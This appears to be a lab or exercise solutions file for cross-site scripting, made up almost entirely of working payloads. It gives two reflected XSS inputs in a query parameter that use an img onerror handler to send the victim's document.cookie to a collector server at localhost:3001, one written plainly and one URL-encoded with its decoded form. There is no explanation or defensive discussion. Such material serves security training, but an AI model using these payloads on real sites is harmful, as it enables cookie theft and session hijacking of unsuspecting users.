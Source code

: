 
# Solutions
1. `http://localhost:3000/?q=<img src=x onerror=this.src='http://localhost:3001/cookie?data='+document.cookie;>`

2. encoded - `%3Cimg%20src%3Dx%20onerror%3D%22var%20img%20%3D%20document%2EcreateElement%28%27img%27%29%3B%20img%2Esrc%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document%2Ecookie%3B%22%3E
`
  
  decoded - `<img src=x onerror="var img = document.createElement('img'); img.src = 'http://localhost:3001/cookie?data=' + document.cookie;">`
